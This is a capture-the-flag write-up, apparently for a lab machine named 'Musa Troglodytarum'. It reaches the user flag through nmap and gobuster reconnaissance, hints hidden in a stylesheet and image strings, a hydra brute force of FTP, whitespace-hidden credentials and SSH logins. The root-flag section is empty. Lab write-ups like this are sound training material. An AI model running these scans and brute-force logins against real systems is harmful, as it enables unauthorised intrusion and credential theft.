

# CTF: Musa Troglodytarum


## Description

> Le bananier des montagnes

## Write-up

UserFlag: user.txt
RootFlag: root.txt

## Flag Solutions

### User Flag

First thing to do is to check open ports on the target machine. We can do this by running a port scan using `nmap`.

```bash
nmap -sSV $IP
```

Results :

```bash
Starting Nmap 7.60 ( https://nmap.org ) at 2024-05-18 13:27 BST
Nmap scan report for ip-10-10-37-170.eu-west-1.compute.internal (10.10.37.170)
Host is up (0.00049s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.2
22/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u8 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.10 ((Debian))
MAC Address: 02:F4:5E:FF:AB:3F (Unknown)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

```

We see a open port 80. Let's check the website.

We go to the 80 port :
`http://$IP`

We have a debian default page.

We can use gobuster to find hidden directories :
```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.37.170
[+] Threads:        10
[+] Wordlist:       Tools/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2024/05/18 13:29:17 Starting gobuster
===============================================================
/assets (Status: 301)
===============================================================
2024/05/18 13:29:23 Finished
===============================================================
```

We have a directory `/assets`. Let's check it out.

We go to the `/assets` directory :
`http://$IP/assets`

We see a directory listing :

```
[ICO]	Name	Last modified	Size	Description
[PARENTDIR]	Parent Directory	 	-	 
[VID]	MusaTroglodytarum.mp4	2021-11-29 15:57	50M	 
[TXT]	style.css	2021-11-29 13:04	2.9K	 
```

We have a video file `MusaTroglodytarum.mp4`. Let's download it. And listen to it.

In the video we have a person said :
```
Ce n'est pas au bon endroit que vous êtes. Vous devez trouver chercher sur le site.
```

In the style.css file we have :
```
/* Nice to see someone checking the stylesheets.
     Take a look at the page: /<file>.php
*/
```

We have an alert said disable JavaScript. We can disable it.

We go to the `/<file>.php` page :
`http://$IP/<file>.php`

We are redirected to a folder, we see a page like this :


We can wget the file `http://$IP/<file>.php` and see the content.

We see a redirection : 
```
--2024-05-18 14:13:12--  http://10.10.37.170/<file>.php
Connecting to 10.10.37.170:80... connected.
HTTP request sent, awaiting response... 302 Found
Location: intermediary.php?hidden_directory=/<folder> [following]
--2024-05-18 14:13:12--  http://10.10.37.170/intermediary.php?hidden_directory=/<folder>
Reusing existing connection to 10.10.37.170:80.
HTTP request sent, awaiting response... 302 Found
Location: /<folder> [following]
--2024-05-18 14:13:12--  http://10.10.37.170/<folder>
Reusing existing connection to 10.10.37.170:80.
HTTP request sent, awaiting response... 301 Moved Permanently
Location: http://10.10.37.170/<folder>/ [following]
--2024-05-18 14:13:12--  http://10.10.37.170/<folder>/
Reusing existing connection to 10.10.37.170:80.
HTTP request sent, awaiting response... 200 OK
Length: 618 [text/html]
Saving to: ’<file>.php’
```

We can see the hidden directory. We can go to the hidden directory :
`http://$IP/<folder>`

We have an image `Hot_Babe.png`. We can download it.

We use `strings` to see if there is any hidden text in the image.

```bash
strings Hot_Babe.png
```

We see code of the image but at the end we have a message :
```
Eh, you've earned this. Username for FTP is banane_celeste:
One of these is the password:
- ...
````

We have the username `banane_celeste` and we can stock the password in a file and use hydra to bruteforce the password to connect to the FTP server.

```bash
hydra -l banane_celeste -P password.txt ftp://$IP
```

We have the password `banane_celeste` and we can connect to the FTP server.

We can use the following command to connect to the FTP server :
```bash
ftp $IP
```

We do `ls` to see the files in the FTP server.
```bash
ftp> ls -al
drwxr-xr-x    2 0        0            4096 Nov 29  2021 .
drwxr-xr-x    2 0        0            4096 Nov 29  2021 ..
-rw-r--r--    1 0        0             860 Nov 08  2022 Valerian's_Creds.txt
```

We have a file `Valerian's_Creds.txt`. We can download it.

We can use the following command to download the file :
```
ftp> get Valerian's_Creds.txt
ftp> bye
```

We can use `cat` to see the content of the file.

```bash
cat Valerian's_Creds.txt
```

We have a text who said :
```
Get out, there is nothing here!
```

But we can install `xxd` to see if there is any hidden text in the file.

```bash
apt-get install xxd
```

We can use `xxd` to see if there is any hidden text in the file.

```bash
xxd Valerian's_Creds.txt
```



We see `.`in the xxd output. It's space. We have a language called "whitespace". We can use an online whitespace decoder to decode the text.

We have the password of the user `Valerian`, we can use it to connect to the SSH server.

```bash
ssh Valerian@$IP
```

We have a message when we connect to the SSH server :
```
Message from Root to Gabriel:

"Gabriel, I am not happy with you. Check our leet s3cr3t hiding place. I've left you a hidden message there"

END MESSAGE
```

We can try to find in all folders for a file called `s3cr3t`.

```bash
find / -name s3cr3t 2>/dev/null
```

We have a folder, we can go to the folder.

```bash
cd /<folder>
```

We can use `ls -al` to see the files in the folder.

```bash
ls -al
```

We found an hidden file `.th1s_m3ss4ag3_15_f0r_g4br13L_0nly!`.

```bash
cat .th1s_m3ss4ag3_15_f0r_g4br13L_0nly!
```

It says the password of the user `Gabriel`. We can use it to connect to the SSH server.

```bash
ssh Gabriel@$IP
```

Go to the home directory of the user `Gabriel`.

```bash
cd /home/gabriel
```

And we can see the user flag.

### Root Flag

